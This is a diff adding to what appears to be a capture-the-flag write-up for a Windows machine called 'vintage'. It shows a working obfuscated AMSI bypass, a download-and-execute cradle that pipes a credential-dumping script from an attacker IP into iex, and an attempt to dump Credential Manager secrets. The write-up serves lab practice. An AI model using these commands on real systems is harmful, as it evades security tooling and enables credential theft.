

vintage

Changed region(s): [[0.0, 0.0, 1.0, 0.9013], [0.0, 0.9324, 0.247, 0.9634]]

diff --git a/_posts/2026-10-20-vintage.md b/_posts/2026-10-20-vintage.md
@@ -244,7 +244,26 @@ The credential works over `winrm`
 
 ![image](image20.png)
 
-I tried to run winPEAS but there's Windows Defender enabled
+Checking the list of active services shows that Windows Defender is running
 
 ![image](image21.png)
 
+The user `c.neri` has a credential stored in Windows Credential Manager
+
+![image](image22.png)
+
+We can easily dump it using [Invoke-WCMDump](https://github.com/peewpw/Invoke-WCMDump) but we'd need to bypass the Defender running.
+
+I used this AMSI bypass to achieve that and on attempting to dump the credential it failed, this is because the `WinRM` shell isn’t an interactive session.
+
+![image](image23.png)
+
+```powershell
+evil-winrm-py PS C:\users\c.neri> [Ref].Assembly.GetType('System.Management.Automation.Amsi'+'Utils').GetField('amsiInit'+'Failed','NonPublic,Static').SetValue($null,!$false)
+evil-winrm-py PS C:\users\c.neri> (new-object net.webclient).downloadstring('http://10.10.15.180/Invoke-WCMDump.ps1') | iex
+evil-winrm-py PS C:\users\c.neri> Invoke-WCMDump
+Exception calling "LoadAll" with "0" argument(s): "Failed to enumerate credentials"
+evil-winrm-py PS C:\users\c.neri>
+```
+
+Since the decryption can be done offline i decided to just do the dump locally using `impacket-dpapi.py` 
